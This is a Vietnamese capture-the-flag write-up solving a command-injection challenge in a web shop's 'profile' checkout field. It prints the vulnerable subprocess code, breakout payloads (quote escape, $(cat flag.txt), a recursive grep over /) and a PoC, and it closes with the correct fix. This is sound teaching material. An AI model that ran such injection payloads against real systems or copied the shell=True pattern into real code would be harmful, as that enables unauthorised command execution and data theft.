


## Đề bài
Web store for security laboratory equipment. The challenge instance is provided by the platform.

A backend component relevant to custom profile verification is included. The rest of the application logic runs on the remote service.

[Defcamp-supply.zip](https://github.com/Drakie14/Challenges/blob/DefCamp-Capture-the-Flag-2026/Defcamp-supply.zip)

Flag Format: `CTF{sha256}`

## Solution
Đề cho ta một phần source (chỉ **một component backend** — phần còn lại chạy trên remote) và một instance là web shop "DefCamp Supply" bán đồ nghề cho lab bảo mật. Truy cập vào challenge, ta thấy một catalog có vài món thường và vài món **premium** (gắn nhãn *"Restricted: requires 20 credits"*):



> Giao diện ở trên được dựng lại từ đúng `templates/index.html` + `style.css` + bộ ảnh sản phẩm trong source (CTF đã đóng, không còn instance để chụp trực tiếp).

Thử bấm vào một món premium, ta nhận thấy khác biệt mấu chốt so với món thường: nó có thêm một dropdown **`Build profile`** với các lựa chọn `stealth`, `audit`, `sandbox`, `forensics`... Giá trị `profile` này được gửi kèm khi `POST /checkout`, và chính nó là mảnh backend mà đề "tốt bụng" đưa cho ta soi.

### Mảnh source được cho — điểm bất thường

Toàn bộ phần đáng chú ý nằm gọn trong `profile_check.py`:

```python!
import subprocess

def verify_custom_profile(profile: str) -> str:
    command = f'python3 verify_profile.py "{profile}"'
    completed = subprocess.run(
        command,
        shell=True,          # <- chạy qua /bin/sh
        capture_output=True,
        text=True,
        timeout=5,
    )
    return (completed.stdout + completed.stderr).strip()
```

Và `verify_profile.py` chỉ là một bộ whitelist vô hại:

```python!
ALLOWED = {"standard","stealth","audit","sandbox","forensics","wireless","bluetooth","firmware"}

def main() -> int:
    profile = sys.argv[1] if len(sys.argv) > 1 else ""
    if profile.lower() in ALLOWED:
        print(f"profile accepted:{profile}")
        return 0
    print(f"profile rejected:{profile}")
    return 1
```

Input của user (`profile`) đã được chèn vào ở đoạn này — nó bị **nhét thẳng vào một chuỗi lệnh shell** bằng f-string rồi đưa cho `subprocess.run(..., shell=True)`. Đây là `command injection` kinh điển.

Vậy vì sao `shell=True` lại nguy hiểm? Khi bật cờ này, Python không gọi trực tiếp chương trình mà đưa cả chuỗi `command` cho `/bin/sh -c` phân tích. Mọi metacharacter của shell — `"`, `;`, `|`, `$(...)`, `` ` ` `` — đều được shell diễn giải. Mà `profile` lại nằm **bên trong cặp nháy kép** `"{profile}"`, nên ta có đúng hai con đường để thoát ra:

1. Đóng nháy kép rồi gắn lệnh mới: `"; <lệnh>; echo "` — ta tự đóng chuỗi `"..."`, chèn lệnh ở giữa, và mở lại một chuỗi rỗng để phần đuôi vẫn hợp lệ.
2. Dùng `command substitution` ngay trong nháy kép: `$(...)` và backtick **vẫn được shell thực thi** kể cả khi đang ở trong dấu `"`. Cách này gọn hơn — không cần phá cấu trúc lệnh.

### PoC offline

Vì phần `/checkout` chạy trên remote, ta tái hiện `verify_custom_profile` ngay trên máy để chốt payload trước khi bắn lên server. Với một file flag giả đặt sẵn:

```python!
from profile_check import verify_custom_profile

# cách 1: break-out nháy kép
verify_custom_profile('"; id; echo "')
# profile rejected:
# uid=1000(appuser) gid=1000(appuser) groups=1000(appuser)

# cách 2: command substitution — flag hiện ngay sau "profile rejected:"
verify_custom_profile('$(cat /home/appuser/flag.txt)')
# profile rejected:CTF{....}
```

Cả hai đều chạy. `verify_profile.py` không nhận ra `profile` nên in `profile rejected:...`, nhưng phần output của lệnh ta chèn thì shell đã kịp thực thi và gộp vào `stdout` trả về.

### Đưa lên instance

Trên app thật, chuỗi `profile` đi theo `POST /checkout` của một món premium (nhớ unlock đủ 20 credits trước), và kết quả `verify_custom_profile(...)` được app in lại trong mục **Recent supply drops** của order. Nói cách khác, output lệnh ta chèn sẽ phản chiếu thẳng ra trang — một kênh exfil có sẵn:



Từ đây chỉ còn là tìm đúng file flag. Ta không biết path trước, nên để shell tự tìm giúp — vẫn qua đúng field `profile`:

```bash!
# liệt kê quanh thư mục làm việc rồi grep flag
"; ls -la; grep -rl 'CTF{' . 2>/dev/null; echo "

# đọc thẳng khi đã biết path (ví dụ cùng thư mục với verify_profile.py)
$(cat flag.txt)

# hoặc quét toàn hệ thống cho chắc
$(grep -rhoE 'CTF\{[0-9a-f]{64}\}' / 2>/dev/null | head -1)
```

Payload cuối cùng gọn nhất chính là command substitution đọc file flag, và flag `CTF{sha256}` sẽ hiện ngay trong kết quả order.

:::warning
**Fix đúng cách:** không bao giờ nối input vào chuỗi shell. Bỏ hẳn `shell=True` và truyền tham số dưới dạng list — `subprocess.run(["python3", "verify_profile.py", profile], ...)` — để `profile` luôn là **một** argv đơn lẻ, shell không còn cơ hội diễn giải metacharacter.
:::

-> Payload: `$(cat flag.txt)` (gửi qua field `profile` của một món premium ở `/checkout`)

-> Flag: `CTF{<sha256>}`
